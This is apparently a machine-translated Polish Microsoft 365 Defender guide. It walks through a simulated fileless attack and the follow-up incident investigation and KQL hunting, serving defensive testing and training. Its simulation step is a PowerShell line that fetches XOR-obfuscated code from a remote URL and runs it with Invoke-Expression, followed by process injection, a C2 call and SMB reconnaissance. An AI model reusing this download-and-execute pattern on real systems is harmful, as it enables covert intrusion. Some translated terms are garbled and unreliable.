

# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Uruchamianie Microsoft 365 Defender ataków

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Planowanie](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Przygotowanie](prepare-m365d-eval.md)|<br/>Symulowanie ataków|[](m365d-pilot-close.md)<br/>[Zamykanie i podsumowywane](m365d-pilot-close.md)|
|--|--|--|--|
|||*Jesteś tutaj!*||

Jesteś obecnie w fazie symulacyjnej ataków.

Po przygotowaniu środowiska pilotażowego należy przetestować funkcje zarządzania zdarzeniami Microsoft 365 Defender automatycznego badania i rozwiązywania problemów. Pomożemy Ci zasymulować zaawansowany atak, który korzysta z zaawansowanych technik, aby ukryć się przed wykryciem. W atakach wyliczyliśmy otwarte sesje blokowania wiadomości serwera (SMB) w kontrolerach domeny i pobierane najnowsze adresy IP urządzeń użytkowników. Tego rodzaju ataki zazwyczaj nie obejmują plików upuszczanych na urządzenie ofiar — występują one wyłącznie w pamięci. "Mieszkają poza tym" przy użyciu istniejących narzędzi systemowych i administracyjnych oraz wsuwają swój kod do procesów systemowych, aby ukryć ich wykonywanie. Takie zachowanie pozwala im na wykrywanie błędów i zachowanie na urządzeniu.

W tej sytuacji przykładowy scenariusz zaczyna się od skryptu programu PowerShell. Użytkownik może mieć kłopoty z uruchomieniem skryptu. Skrypt może też zostać uruchomiony z połączenia zdalnego do innego komputera z wcześniej zainfekowanym urządzeniem — atakujący próbujący przejść dalej w sieci. Wykrywanie tych skryptów może być trudne, ponieważ administratorzy często często uruchamiają je zdalnie w celu wykonywania różnych działań administracyjnych.


Podczas symulacji atak dodaje kod powłoki do pozornie procesu przepływu. Scenariusz wymaga użycia notepad.exe. Wybraliśmy ten proces na platformie symulacyjnej, ale przestępcy najprawdopodobniej będą dotyczyć długo działającego procesu systemowego, takiego jak svchost.exe. Kod powłoki przechodzi następnie do serwera poleceń i kontrolek atakującego (C2) w celu otrzymania instrukcji dotyczących kontynuowania. Skrypt próbuje wykonać kwerendy rozpoznawcze na kontrolerze domeny (DC). Renaissance umożliwia atakującemu uzyskiwanie informacji o ostatnich danych logowania użytkownika. Gdy atakujący uzyskają takie informacje, mogą przejść później do sieci w celu uzyskania dostępu do określonego poufnego konta.

> [!IMPORTANT]
> Aby uzyskać optymalne wyniki, należy jak najścigniej postępować zgodnie z instrukcjami symulacyjnych ataków.

## <a name="simulation-environment-requirements"></a>Wymagania dotyczące środowiska symulacyjnego

Ponieważ środowisko pilotażowe zostało już skonfigurowane na etapie przygotowywania, upewnij się, że masz dwa urządzenia do tego scenariusza: urządzenie testowe i kontroler domeny.

1. Sprawdź, czy w [dzierżawie włączono Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Sprawdź konfigurację testowego kontrolera domeny:

   - Urządzenie działa z Windows Server 2008 R2 lub nowszym.
   - Test domain controller to [Microsoft Defender for Identity and enable](/azure/security-center/security-center-wdatp) [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).
   - Sprawdź, [czy włączono integrację usług Microsoft Defender Microsoft Cloud App Security](/cloud-app-security/mdi-integration) Identity i Microsoft Defender.
   - W Twojej domenie jest tworzony użytkownik testowy — nie są wymagane żadne uprawnienia administratora.

3. Sprawdź konfigurację urządzenia testowego:

   1. Urządzenie działa z Windows 10 1903 lub nowszą wersją.

   1. Urządzenie testowe jest przyłączone do domeny testowej.

   1. [Włącz Program antywirusowy Windows Defender](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Jeśli masz problem z włączeniem Program antywirusowy Windows Defender, zobacz ten [temat rozwiązywania problemów](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).

   1. Sprawdź, czy urządzenie testowe [jest wnoszone do programu Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Jeśli korzystasz z istniejącej dzierżawy i implementujesz grupy urządzeń, utwórz dedykowaną grupę urządzeń dla urządzenia testowego i wypychaj ją na najwyższy poziom w interfejsie użytkownika konfiguracji.

## <a name="run-the-attack-scenario-simulation"></a>Run the attack scenario simulation

Aby uruchomić symulację scenariusza ataków:

1. Zaloguj się na urządzeniu testowym za pomocą testowego konta użytkownika.

2. Otwórz okno Windows PowerShell na urządzeniu testowym.

3. Skopiuj następujący skrypt symulowania:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Po otwarciu tego dokumentu w przeglądarce internetowej mogą wystąpić problemy z kopiowaniem pełnego tekstu bez utraty określonych znaków lub wprowadzeniem dodatkowych podziałów wiersza. Pobierz ten dokument i otwórz go w programie Adobe Reader.

4. Po wyświetleniu monitu wklej i uruchom skopiowany skrypt.

> [!NOTE]
> Jeśli korzystasz z programu PowerShell przy użyciu protokołu pulpitu zdalnego (RDP), użyj polecenia Wpisz tekst schowka w kliencie RDP, ponieważ metoda **klawisza dostępu CTRL-V** lub kliknięcia prawym przyciskiem myszy może nie działać. Ostatnie wersje programu PowerShell czasami również nie akceptują tej metody. Najpierw trzeba skopiować program Notatnik w pamięci, skopiować go na maszynę wirtualną, a następnie wkleić do programu PowerShell.

Kilka sekund później zostanie <i>notepad.exe</i> . Symulowany kod ataków zostanie wsadowany w notepad.exe. Nie otwieraj automatycznie wygenerowanego Notatnik, aby było pełne środowisko scenariusza.

Symulowany kod ataków spróbuje przekazać do zewnętrznego adresu IP (simulując serwer C2), a następnie podejmie próbę rozpoznania kontrolera domeny za pośrednictwem protokołu SMB.

Po zakończeniu tego skryptu na konsoli programu PowerShell zostanie wyświetlony komunikat.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Aby zobaczyć działanie funkcji automatycznego reagowania i zdarzenia, nie notepad.exe otwarty. Zostanie wyświetlony automatyczny proces reagowania i zdarzenia oraz zatrzymania procesu Notatnik zdarzenia.

## <a name="investigate-an-incident"></a>Badanie zdarzenia

> [!NOTE]
> Zanim przejdę przez tę symulację, obejrzyj poniższy klip wideo, aby zobaczyć, jak zarządzanie zdarzeniami ułatwia skonsulować powiązane alerty w ramach procesu badania, gdzie można je znaleźć w portalu i jak może ułatwić Ci to działanie w ramach operacji zabezpieczeń:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Teraz, po przełączeniu się do punktu widzenia analityka SOC, możesz rozpocząć badanie ataków w portalu centrum Microsoft 365 zabezpieczeń.

1. Otwieranie kolejki [zdarzeń Microsoft 365 Centrum zabezpieczeń](https://security.microsoft.com/incidents) z dowolnego urządzenia.

2. Przejdź do **pozycji Zdarzenia** z menu.

    

3. Nowe zdarzenie dotyczące symulowanego ataku pojawi się w kolejce zdarzenia.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Badanie ataków jako pojedynczego zdarzenia

Microsoft 365 Defender skoreluje analizy i łączy wszystkie powiązane alerty i analizy z różnych produktów w jedną jednostkę zdarzenia. W ten sposób możesz Microsoft 365 Defender bardziej szerzyć historię ataków, pozwalając analitykowi SOC na zrozumienie złożonych zagrożeń i reagowanie na nie.

Alerty wygenerowane podczas tej symulacyjnej analizy są skojarzone z tym samym zagrożeniem, w wyniku czego są automatycznie agregowane jako jedno zdarzenie.

Aby wyświetlić zdarzenie:

1. Przejdź do **kolejki Zdarzenia** .

   

2. Zaznacz najnowszy element, klikając okrąg znajdujący się po lewej stronie nazwy zdarzenia. Na panelu bocznym są wyświetlane dodatkowe informacje o zdarzeniu, w tym wszystkie związane z nim alerty. Każde zdarzenie ma unikatową nazwę, która opisuje je na podstawie atrybutów uwzględnianych w nim alertów.

   

   Alerty wyświetlane na pulpicie nawigacyjnym można filtrować według zasobów usługi: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender i Microsoft Defender for Office 365.

3. Wybierz **pozycję Otwórz stronę zdarzenia,** aby uzyskać więcej informacji o zdarzeniu.

   Na stronie **Zdarzenie** widać wszystkie alerty i informacje dotyczące zdarzenia. Informacje te obejmują jednostki i zasoby, które biorą udział w alercie, źródło wykrywania alertów (Usługa Microsoft Defender dla tożsamości, EDR) oraz przyczynę ich powiązać. Przeglądanie listy alertów o incydentach zawiera informacje o postępie ataków. W tym widoku możesz wyświetlić i zbadać poszczególne alerty.

   Możesz również **kliknąć pozycję Zarządzaj** zdarzeniem w menu po prawej stronie, aby otagować zdarzenie, przypisać je do siebie i dodać komentarze.

   

   

### <a name="review-generated-alerts"></a>Przeglądanie wygenerowanych alertów

Przyjrzyjmy się niektórym alertom wygenerowanym podczas symulowanego ataku.

> [!NOTE]
> W symulowanym ataku zostanie wygenerowanych tylko kilka alertów. W zależności od wersji pakietu Windows i programu Microsoft 365 Defender na urządzeniu testowym, mogą zostać wyświetlone więcej alertów wyświetlanych w nieco innej kolejności.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Alert: zaobserwowano podejrzany proces (źródło: program Microsoft Defender for Endpoint EDR)

Zaawansowani atakujący używają zaawansowanych metod, które pozostają w pamięci i ukrywają się przed narzędziami wykrywania. Jedną z typowych technik jest działanie z poziomu zaufanego procesu systemowego, a nie ze złośliwego pliku wykonywalnego, co ułatwia wykrywanie narzędzi i operacji zabezpieczeń w celu wykrycia złośliwego kodu.

Aby umożliwić analitykom SOC wychwycić te zaawansowane ataki, czujniki deep memory w programie Microsoft Defender for Endpoint zapewniają naszą usługę w chmurze wgląd w różne techniki przesyłania kodu krzyżowego. Na poniższej ilustracji pokazano, jak program Defender for Endpoint wykrył i alertował podczas próby wsadu kodu w <i>notepad.exe</i>.


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Alert: Zachowanie nieoczekiwane obserwowane w przypadku uruchomienia procesu bez argumentów wiersza polecenia (źródło: Program Microsoft Defender for Endpoint EDR)

Usługa Microsoft Defender for Endpoint wykrywania często jest docelowa najbardziej typowego atrybutu techniki ataków. Ta metoda zapewnia niezawodność i zwiększa słupki dla atakujących w celu przełączenia się do nowszej taktyki.

Stosujemy algorytmy edukacyjne na dużą skalę, aby określać normalne zachowanie typowych procesów w organizacji i na całym świecie, i obserwujmy, kiedy te procesy pokazują anomaliczne zachowania. Te anomalne zachowania często wskazują, że wprowadzono niepotrzebny kod i są one uruchomione w innym zaufanym procesie.

W tym scenariuszu proces <i>notepad.exejest </i> nieprawidłowym zachowaniem, obejmującym komunikację z lokalizacją zewnętrzną. Ten wynik jest niezależny od konkretnej metody wprowadzenia i wykonania złośliwego kodu.

> [!NOTE]
> Ten alert jest oparty na modelach maszynowego uczenia, które wymagają dodatkowego przetwarzania zaplecza, dlatego może minieć trochę czasu, zanim ten alert zostanie wyświetlony w portalu.

Zwróć uwagę, że szczegóły alertu obejmują zewnętrzny adres IP — wskaźnik, który może być przestawny, aby rozwinąć badanie.

Wybierz adres IP w drzewie procesu alertu, aby wyświetlić stronę szczegółów adresu IP.


Na poniższej ilustracji przedstawiono wybraną stronę szczegółów adresu IP (kliknięcie adresu IP w drzewie procesu alertu).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Alert: Rozpoznanie użytkownika i adresu IP (SMB, User and IP Address Reconnaissance) (Źródło: Microsoft Defender for Identity)

Wyliczenie przy użyciu protokołu blokowania wiadomości serwera (SMB, Server Message Block) umożliwia atakującym uzyskanie przez atakujących ostatnich informacji logowania użytkownika, które pomagają im przejść dalej przez sieć w celu uzyskania dostępu do określonego poufnego konta.

Podczas tego wykrywania jest wyzwalany alert, gdy wyliczenie sesji SMB jest uruchamiane na kontrolerze domeny.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Przejrzyj oś czasu urządzenia [Program Microsoft Defender dla punktu końcowego]

Po przeglądaniu różnych alertów dotyczących tego zdarzenia przejdź z powrotem do strony zdarzenia, która była wcześniej analizowana. Wybierz **kartę Urządzenia** na stronie zdarzenia, aby przejrzeć urządzenia uczestniczące w tym zdarzeniu, zgłoszone przez usługę Microsoft Defender for Endpoint i usługę Microsoft Defender for Identity.

Wybierz nazwę urządzenia, na którym został przeprowadzony atak, aby otworzyć stronę jednostki dla tego konkretnego urządzenia. Na tej stronie widać alerty, które zostały wyzwolone, oraz powiązane zdarzenia.

Wybierz **kartę Oś czasu** , aby otworzyć oś czasu urządzenia i wyświetlić wszystkie zdarzenia i zachowania obserwowane na urządzeniu w kolejności chronologicznej z podniesionym alertami.


Rozwinięcie niektórych bardziej interesujących zachowań dostarcza przydatnych informacji, takich jak drzewa rozsyłki.

Na przykład przewiń w dół, aż znajdziesz zdarzenie alertu **Obserwowane zdarzenie podejrzanego procesu.** Wybierz przycisk **powershell.exe** wsadu do zdarzenia procesu notepad.exe poniżej tego zdarzenia, aby wyświetlić pełne drzewo procesu dla tego zachowania pod wykresem Jednostki  zdarzenia w okienku bocznym. Jeśli to konieczne, użyj paska wyszukiwania do filtrowania.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Przejrzyj informacje o użytkowniku [Microsoft Cloud App Security]

Na stronie zdarzenia wybierz kartę Użytkownicy, aby wyświetlić listę użytkowników, którzy biorą udział w atakach. Ta tabela zawiera dodatkowe informacje o poszczególnych użytkownikach, w tym ocenę priorytetu badania **każdego** użytkownika.

Wybierz nazwę użytkownika, aby otworzyć stronę profilu użytkownika, gdzie można przeprowadzić dalsze badanie. [Dowiedz się więcej o badanie ryzykownych użytkowników](/cloud-app-security/tutorial-ueba#identify).


## <a name="automated-investigation-and-remediation"></a>Zautomatyzowane badanie i rozwiązywanie problemów

> [!NOTE]
>Przed rozpoczęciem tej symulacyjnej pracy obejrzyj poniższy klip wideo, aby dowiedzieć się, co to jest automatyczna samodzielna ochrona, gdzie można je znaleźć w portalu i jak może ona pomóc w działaniach zabezpieczeń:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Przejdź z powrotem do zdarzenia w portalu Microsoft 365 Security Center. Karta **Badania na** stronie **Zdarzenie** zawiera zautomatyzowane badania, które zostały wyzwolone przez usługę Microsoft Defender for Identity i Usługę Microsoft Defender for Endpoint. Poniższy zrzut ekranu przedstawia tylko zautomatyzowane badanie wyzwalane przez program Defender for Endpoint. Domyślnie program Defender for Endpoint automatycznie naprawia artefakty znalezione w kolejce, co wymaga działań naprawczych.


Wybierz alert, który wyzwolił badanie w celu otwarcia strony **Szczegóły** badania. Zobaczysz następujące szczegóły:

- Alerty, które wyzwoliły zautomatyzowane badanie.
- Urządzenia i użytkownicy, których to ma wpływ. Jeśli wskaźniki zostaną znalezione na dodatkowych urządzeniach, zostaną również wyświetlone te dodatkowe urządzenia.
- Lista dowodów. Odnalezione i przeanalizowane jednostki, takie jak pliki, procesy, usługi, sterowniki i adresy sieciowe. Te jednostki są analizowane pod celu przeanalizowania możliwych relacji z alertem i ocenione jako ekstremem lub złośliwe.
- Znalezione zagrożenia. Znane zagrożenia odnalezione podczas badania.

> [!NOTE]
> W zależności od chronometrażu automatyczne badanie może być nadal uruchomione. Przed zebraniem i przeanalizowaniem dowodów oraz przejrzenia wyników poczekaj kilka minut na ukończenie procesu. Odśwież stronę **Szczegóły badania** , aby uzyskać najnowsze wyniki.


Podczas zautomatyzowanego badania usługa Microsoft Defender for Endpoint zidentyfikowała proces notepad.exe, który został przysłany jako jeden z artefaktów wymagających środków zaradczych. Program Defender for Endpoint automatycznie zatrzymuje podejrzaną autoryzację procesu w ramach automatycznego rozwiązywania problemów.

Możesz zobaczyć, <i>notepad.exe</i> z listy uruchomionych procesów na urządzeniu testowym.

## <a name="resolve-the-incident"></a>Rozwiązywanie zdarzenia

Po zakończeniu badania i potwierdzeniu jego działania naprawczego zamknij zdarzenie.

Wybierz **pozycję Zarządzaj zdarzeniem**. Ustaw stan Rozwiąż **zdarzenie i** wybierz odpowiednią klasyfikację.

Gdy zdarzenie zostanie rozwiązane, wszystkie skojarzone z nim alerty są zamykane w Centrum zabezpieczeń usługi Microsoft 365 i powiązanych portalach.


Jest to czas czasy ataku na przykład w przypadku zarządzania zdarzeniami oraz automatycznego badania i rozwiązywania problemów. Następna symulacja umożliwia proaktywne pochylenie nad potencjalnie złośliwymi plikami.

## <a name="advanced-hunting-scenario"></a>Scenariusz zaawansowanego chłoniania

> [!NOTE]
> Przed rozpoczęciem symulacyjnej pracy obejrzyj poniższy klip wideo, aby poznać zaawansowane pojęcia myśliwskie, dowiedzieć się, gdzie można je znaleźć w portalu i jak może pomóc Ci w działaniach zabezpieczających:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Wymagania dotyczące środowiska łowego

W tym scenariuszu wymagana jest pojedyncza wewnętrzna skrzynka pocztowa i urządzenie. Do wysłania wiadomości testowej potrzebne jest również zewnętrzne konto e-mail.

1. Sprawdź, czy w dzierżawie [włączono Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).
2. Zidentyfikuj docelową skrzynkę pocztową, która ma być używana do odbierania wiadomości e-mail.
    a. Ta skrzynka pocztowa musi być monitorowana przez program Microsoft Defender dla Office 365 b. Urządzenie z wymagania 3 musi mieć dostęp do tej skrzynki pocztowej
3. Konfigurowanie urządzenia testowego: a. Upewnij się, że korzystasz z Windows 10 1903 lub nowszej.
    b. Dołącz urządzenie testowe do domeny testowej.
    c. [Włącz Program antywirusowy Windows Defender](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Jeśli masz problem z włączeniem Program antywirusowy Windows Defender, zobacz [ten temat rozwiązywania problemów](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d. [Wdowy do programu Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Uruchamianie symulacyjnej

1. Z zewnętrznego konta e-mail wyślij wiadomość e-mail do skrzynki pocztowej wskazanej w kroku 2 sekcji testowych wymagań środowiska. Dołącz załącznik, który będzie dozwolony za pośrednictwem wszelkich istniejących zasad filtrowania wiadomości e-mail. Ten plik nie musi być złośliwy ani wykonywalny. Sugerowane typy plików <i> to plik.pdf</i>, <i>.exe</i> (jeśli jest dozwolony) lub Office taki jak plik programu Word.
2. Otwórz wysłaną wiadomość e-mail z urządzenia skonfigurowanego zgodnie z definicją w kroku 3 sekcji testowych wymagań środowiska. Otwórz załącznik lub zapisz plik na urządzeniu.

#### <a name="go-hunting"></a>Idź na pochody

1. Otwórz security.microsoft.com witryny.

2. Przejdź do opcji **chłoniania > zaawansowanego chłoniania**.

   

3. Tworzenie zapytania, które rozpocznie się od zbierania zdarzeń wiadomości e-mail.

   1. W okienku zapytania wybierz pozycję Nowy.

   1. Kliknij dwukrotnie tabelę EmailEvents na podstawie schematu.

      ```console
      EmailEvents
      ```

   1. Zmień ramy czasowe na ostatnie 24 godziny. Zakładając, że wiadomość e-mail wysłana po czasie symulowania została wykonana powyżej w ciągu ostatnich 24 godzin, w przeciwnym razie zmień ramy czasowe.

      

   1. Uruchom zapytanie. W zależności od środowiska programu pilotażowego możesz uzyskać wiele wyników.

      > [!NOTE]
      > Zobacz następny krok, aby uzyskać informacje na temat opcji filtrowania w celu ograniczenia możliwości zwracania danych.

      

        > [!NOTE]
        > Funkcja wyszukiwania zaawansowanego wyświetla wyniki zapytania jako dane tabelarowe. Możesz również wyświetlić dane w innych typach formatów, takich jak wykresy.

   1. Zapoznaj się z wynikami i sprawdź, czy możesz zidentyfikować otwartą wiadomość e-mail. Może upłynieć do 2 godzin, aż wiadomość pojawi się w chłonie zaawansowania. Jeśli środowisko poczty e-mail jest duże i wyników jest wiele, możesz użyć opcji Pokaż **filtry,** aby znaleźć wiadomość.

      W przykładzie wiadomość e-mail została wysłana z konta Yahoo. Kliknij ikonę **+** obok **yahoo.com** sekcji SenderFromDomain (Domena SenderFromDomain), a następnie kliknij pozycję **Apply** (Zastosuj), aby dodać wybraną domenę do zapytania. Do filtrowania wyników użyj domeny lub konta e-mail użytego do wysłania wiadomości testowej w kroku 1 kroku Run the Simulation. Uruchom ponownie zapytanie, aby uzyskać mniejszy zestaw wyników w celu potwierdzenia, że jest wyświetlany komunikat z symulacyjnej.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Kliknij wiersze wynikowe z zapytania, aby sprawdzić rekord.

      

4. Po sprawdzeniu, że wiadomości e-mail są już dostępne, dodaj filtr załączników. Skoncentruj się na wszystkich wiadomościach e-mail z załącznikami w środowisku. W tym scenariuszu skoncentruj się na przychodzących wiadomościach e-mail, a nie na tych, które są wysyłane ze środowiska. Usuń wszelkie filtry dodane w celu zlokalizowania wiadomości i dodaj "| gdzie **AttachmentCount > 0** i **EmailDirection** == **"Inbound""**

   Poniższe zapytanie spowoduje wyświetlanie wyników z krótszą listą niż zapytanie początkowe dla wszystkich zdarzeń wiadomości e-mail:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Następnie dołącz do zestawu wyników informacje o załączniku (takie jak: nazwa pliku czy skróty). Aby to zrobić, dołącz do **tabeli EmailAttachmentInfo** . Pola wspólne, których należy użyć w celu dołączenia, w tym przypadku to **NetworkMessageId** i **RecipientObjectId**.

   Poniższe zapytanie zawiera również dodatkowy wiersz "| **project-rename EmailTimestamp=Timestamp"**, ułatwiający określenie, który sygnatura czasowa była powiązana z pocztą e-mail, a sygnatury czasowe związane z akcjami pliku, które dodasz w następnym kroku.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Następnie użyj wartości **SHA256** z tabeli **EmailAttachmentInfo** , aby znaleźć zdarzenia **DeviceFileEvents** (akcje pliku, które wydarzyły się w punkcie końcowym) dla tego skrótu. Najczęściej spotykane w tym miejscu będzie skrót SHA256 załącznika.

   W tabeli wynikowej znajdują się teraz szczegóły z punktu końcowego (Microsoft Defender for Endpoint), takie jak nazwa urządzenia, co zostało wykonane (w tym przypadku odfiltrowane tak, aby uwzględniały tylko zdarzenia FileCreated) i gdzie plik był przechowywany. Zostanie również uwzględniona nazwa konta skojarzona z tym procesem.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Zostało utworzone zapytanie identyfikujące wszystkie przychodzące wiadomości e-mail, w których użytkownik otwierał lub zapisywał załącznik. Możesz również uściślić to zapytanie, aby filtrować według konkretnych domen nadawcy, rozmiarów plików, typów plików i tak dalej.

7. Funkcje to specjalny rodzaj sprzężenia, który pozwala na przyciągnięcie kolejnych danych TI na temat pliku, np. informacje o jego adresacie, podpiszeniu i wystawcy itp. Aby uzyskać więcej szczegółowych informacji na temat pliku, wzbogać funkcję **FileProfile(** ):

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Tworzenie wykrywania

Po utworzeniu zapytania identyfikującego informacje, o których chcesz w przyszłości otrzymać **alerty** , możesz utworzyć wykrywanie niestandardowe na podstawie zapytania.

Wykrywanie niestandardowe będzie uruchamiać zapytanie zgodnie z ustawioną częstotliwością, a wyniki zapytań będą tworzyć alerty zabezpieczeń na podstawie wyboru zasobów. Alerty te będą skorelowane z zdarzeniami i mogą być triagedowane jako wszelkie inne alerty zabezpieczeń wygenerowane przez jeden z produktów.

1. Na stronie zapytania usuń wiersze 7 i 8, które zostały dodane w kroku 7 instrukcji go wyszukiwania, i kliknij pozycję **Utwórz regułę wykrywania**.

   

   > [!NOTE]
   > Jeśli klikniesz **pozycję Utwórz regułę wykrywania** i w zapytaniu będą wystąpiły błędy składni, reguła wykrywania nie zostanie zapisana. Sprawdź dwukrotnie zapytanie, aby upewnić się, że nie wystąpiły żadne błędy.

2. Wypełnij wymagane pola informacjami, które umożliwią zespołowi zabezpieczeń zrozumienie alertu, przyczyny jego wygenerowania i czynności, które mogą być podejmowane przez zespół zabezpieczeń.

   

   Zadbaj o czytelność pól, aby ułatwić następnej użytkownikowi podejmowanie decyzji dotyczącej alertu z regułą wykrywania.

3. Wybierz encje, których dotyczy ten alert. W tym przypadku wybierz pozycję **Urządzenie i skrzynka** **pocztowa**.

   

4. Określ, jakie działania należy podjąć w przypadku uruchomienia alertu. W takim przypadku uruchom skanowanie antywirusowe, chociaż można podjąć inne działania.

   

5. Wybierz zakres reguły alertu. Ponieważ to zapytanie obejmuje urządzenia, grupy urządzeń są istotne w ramach tego niestandardowego wykrywania zgodnie z kontekstem programu Microsoft Defender for Endpoint. Podczas tworzenia wykrywania niestandardowego, które nie uwzględnia urządzeń jako jednostek, których to dotyczy, zakres nie ma zastosowania.

   

   W ramach tego programu pilotażowego można ograniczyć tę regułę do podzbioru urządzeń testowych w środowisku produkcyjnym.

6. Wybierz pozycję **Utwórz**. Następnie wybierz pozycję **Niestandardowe reguły wykrywania** w panelu nawigacji.

   

   

   Na tej stronie możesz wybrać regułę wykrywania, co spowoduje otwarcie strony szczegółów.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Dodatkowe zaawansowane ćwiczenia chłoniające podczas chodu

Aby dowiedzieć się więcej na temat zaawansowanego wyszukiwania, poniższe webcasty osą Cię przez funkcje zaawansowanego wyszukiwania w Microsoft 365 Defender tworzenia zapytań krzyżowych, przechodnia do jednostek i tworzenia niestandardowych wykrywania oraz działań naprawczych.

> [!NOTE]
> Przygotuj się przy użyciu własnego konta GitHub, aby uruchomić zapytania myśliwskie w pilotażowym środowisku laboratoryjnym.

|Tytuł|Opis|Pobierz plik MP4|Oglądanie w serwisie YouTube|Plik CSL do użycia|
|---|---|---|---|---|
|Odcinek 1. Podstawy KQL|We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender. Zapoznaj się z dostępnymi zaawansowanymi danymi wyszukiwania oraz podstawowymi operatorami i składnią KQL.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Odcinek 1. Plik CSL w witrynie Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Odcinek 2. Dołącza|Będziemy nadal uczyć się danych podczas zaawansowanego wyszukiwania i jak łączyć tabele. Dowiedz się więcej o sprzężeniach wewnętrznych, zewnętrznych, unikatowych i półsprzedanych oraz o nuniach domyślnego sprzężenia z aplikacji Kusto innerunique.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Odcinek 2. Plik CSL w witrynie Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Odcinek 3. Podsumowywanie, przewłacanie i wizualizowanie danych|Teraz, gdy będziemy mogli filtrować, manipulować i łączyć dane, czas zacząć podsumowywanie, określanie określania, przewłacanie i wizualizowanie. W tym odcinkiem ominiemy operator podsumowania oraz niektóre obliczenia, które można wykonać podczas pracy z dodatkowymi tabelami w zaawansowanym schemacie wyszukiwania. Przekształcimy nasze zestawy danych w wykresy, które mogą pomóc w ulepszaniu analizy.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Odcinek 3. Plik CSL w witrynie Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
